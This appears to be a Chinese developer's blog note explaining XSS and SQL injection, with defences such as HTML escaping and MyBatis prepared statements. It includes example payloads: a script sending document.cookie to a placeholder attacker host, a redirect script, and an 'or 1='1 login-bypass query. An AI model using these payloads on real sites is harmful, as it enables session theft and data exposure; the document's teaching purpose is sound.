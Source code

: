 ```yaml
---
title: xss和sql注入
date: 2020-01-08 13:46:29
updated: 2020-01-08 14:16:21
tags: web安全
categories: 架构设计
---
```

## 目的
    1.避免代码被攻击
    2.如何做到项目安全保障
## 项目安全隐患
    1.代码
    2.业务逻辑
    3.应用

## web安全常用攻击手段
    xss
    sql注入
    防盗链
## 什么是XSS攻击?
    Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。
    攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。
    利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。
    为了和 CSS 区分，这里把攻击的第一个字母改成了 X，于是叫做 XSS。
    
    XSS 的本质是：恶意代码未经过滤，与网站正常的代码混在一起；
    浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。
  
## 常见的XSS危害举例
    1.盗取cookie,通过cookie信息伪造请求
       <script>
        // 通过动态构造一个img标签，将当前页面的cookie发送给attack.com
        new Image().src = "http://attacker.ip/" + document.cookie;
       </script>
    2.钓鱼
    eg: 在一个页面提交表单后，到另一个页面展示，可能会受到XSS脚本注入，读取本地cookie远程发送给黑客服务器端。
    eg: 链接中包含用户信息，被第三方拦截，添加js脚本，跳转到钓鱼网站的转账页面，用户未能识别钓鱼网站而被骗
    例如:某wx群分享了一个连接,点击这个连接，打开后的网址和某宝极其相似,比如类似这种www.taoobao.com
    你如果没有区分出网址的错误,而在打开的连接中输入转账信息的表单,这个页面带着你的转账信息+<js跳转转账网址>
    又调到了转账页面,一点击转账,凉了...
    测试脚本:
    <script>alert('sss')</script>
    eg: 比如论坛或者贴吧的评论区,如果不对xss攻击进行处理,比如类似如下这种
    <script>window.location.href='http://www.baidu.com';</script>
    那么当普通用户进入评论页,会自动跳转到www.baidu.com,自己的网站被别人引流了,惨不惨!!
## 如何防御XSS攻击?
    将脚本特殊字符，转换成html源代码进行展示。比如'<' 在html想展示符号内容而不是被浏览器解析,需要转为&lt;
    测试脚本处理后对应html源代码: &lt;script&gt;alert('sss')&lt;/script&gt;
    项目一般处理方式:写一个过滤器,拦截所有请求,将参数中的特殊字符进行过滤处理
     可以借助commons包下工具类,完成特殊字符转换
     <dependency>
        <groupId>commons-lang</groupId>
        <artifactId>commons-lang</artifactId>
        <version>2.6</version>
      </dependency>
      
   ![](/images/security/common.png)
## sql注入
    根据sql语法,输入相关字符,改变原sql形成攻击sql
    如:mybatis 中$符号拼接sql时需要程序员添加',这里当攻击者通过'的技巧输入形成新sql,从而直接对MYSQL进行数据攻击
    eg: select username,password from user where user='${username}' and password='${password}';
    当攻击url: http://ip:port/find?username=zhangsan&password='or 1= '1
    形成攻击sql:select username,password from user where user='zhangsan' and password='' or 1 ='1';
    后果: 可完成查询所有用户数据,用户数据泄露
## 如何防御sql攻击
    1.编写dao层尽量不要使用sql拼接,使用预编译方式,比如mybatis中的#替换$
    2.如果使用了sql拼接,要对入参含有特殊字符进行处理
## MyBatis #与$区别
    #{}: 解析为一个 JDBC 预编译语句（prepared statement）的参数标记符，一个 #{} 被解析为一个参数占位符,可以防止SQL注入问题。
    ${}: 仅仅为一个纯碎的 string 替换，在动态 SQL 解析阶段将会进行变量替换。